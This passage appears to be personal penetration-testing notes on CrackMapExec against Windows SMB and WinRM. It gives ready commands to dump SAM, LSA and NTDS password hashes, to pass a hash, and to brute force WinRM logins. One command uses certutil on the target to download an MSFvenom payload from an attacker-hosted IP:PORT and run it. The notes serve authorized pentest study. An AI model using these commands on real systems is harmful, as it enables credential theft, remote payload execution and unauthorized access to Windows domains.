 - -u                                           ---> Username
- -p                                           ---> Passowrd
- --sessions                             ---> Command to list current sessions


Command (Dump Hash | sam, lsa, ntds)
```
# Take note you need a valid account to perform the following
crackmapexec smb IP -u 'Valid-User' -p 'Valid-Pass' --ntds
```

- -u                                           ---> Username
- -p                                           ---> Passowrd
- --ntds                                    ---> Type of Hash (can use sam, lsa or ntds)

Difference between those elements
	The `SAM` file is a database that stores information about local user accounts on a Windows system. It is used to authenticate local users on the system and is typically stored on the system drive in the `%SYSTEMROOT%\system32\config` directory. Stores information about user accounts on a local computer, including their passwords and security identifiers (**SIDs**)
	ㅤ
	The `LSA` is a component of the Windows operating system that is responsible for handling security requests. It is responsible for authenticating users, granting access to resources, and enforcing security policies. The LSA is not a standalone file, but rather a component of the operating system.
	ㅤ
	The `NTDS` file is a database that stores information about objects in an Active Directory domain, including users, groups, and computers. It is used to authenticate users in an Active Directory domain and is typically stored on the system drive in the `%SYSTEMROOT%\NTDS` directory.



Command (Run Custom Command (Example MSFvenom payload))
```
# Take note you need a valid account to perform the following
crackmapexec smb IP -u 'Valid-User' -p 'Valid-Pass' -x 'certutil -urlcache -f http://IP:PORT/PAYLOAD_NAME.exe payload_name.exe && cmd /c payload_name.exe'
``````

- -u                                           ---> Username
- -p                                           ---> Passowrd
- -x                                           ---> Command to run on the machine
	- IP:PORT                          ---> Port we are hosting the payload
	- cmd /c                            ---> Run the command (program)


Pass the Hash
```
crackmapexec smb IP -u USERNAME -H 32196B56FFE6F45E294117B91A83BF38 -x COMMAND
```
  ---> More information: [[3 - Authentication Relays (Responder)]]

---

<h2>Winrm</h2>

Command
```
# Brute Force
crackmapexec winrm IP -u 'administator' -p 'WORDLIST'

# Sign In testing and Commands
crackmapexec winrm IP -u 'USER' -p 'PASS' -x "ipconfig"
```
